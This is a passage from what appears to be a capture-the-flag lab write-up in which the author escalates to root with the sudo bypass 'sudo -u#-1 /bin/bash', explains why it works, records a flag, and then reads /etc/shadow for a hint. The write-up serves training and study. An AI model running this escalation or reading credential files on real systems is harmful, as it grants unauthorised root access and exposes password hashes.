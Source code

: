 <figure><img src="../../../.gitbook/assets/image (106) (1).png" alt=""><figcaption></figcaption></figure>

Exploit:

```
sudo -u#-1 /bin/bash
```

<figure><img src="../../../.gitbook/assets/image (107) (1).png" alt=""><figcaption></figcaption></figure>

```
Description :

Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
```

Get the flag

9th flag: `DANTE{sudo_M4k3_me_@_Sandwich}`

After that, we check `/etc/shadow`.  We can see user `julian` has a hint on his shadow file

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
